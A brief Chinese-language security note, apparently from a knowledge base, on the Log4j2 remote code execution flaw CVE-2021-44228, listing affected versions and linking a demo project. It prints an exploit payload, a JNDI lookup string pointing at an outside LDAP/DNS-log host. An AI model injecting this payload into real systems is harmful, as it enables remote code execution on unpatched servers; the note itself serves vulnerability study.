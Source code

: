 # log4j2远程代码执行漏洞(cve-2021-44228)

影响版本

```
log4j2<2.15.0
实际上是log4j-core < 2.15.0即可，后续不知道是否会有变种进行绕过，需要持续关注
```



&#x20;IDEA Project DEMO

{% file src="../../.gitbook/assets/log4j2_RCE_demo.zip" %}

EXP:

```
参数名=${jndi:ldap://xxx.dnslog.cn/exp}
```

其存在问题的点在log4j-core这个包，只要这个包的版本比较低，log4j-api这个版本无论多高都没用



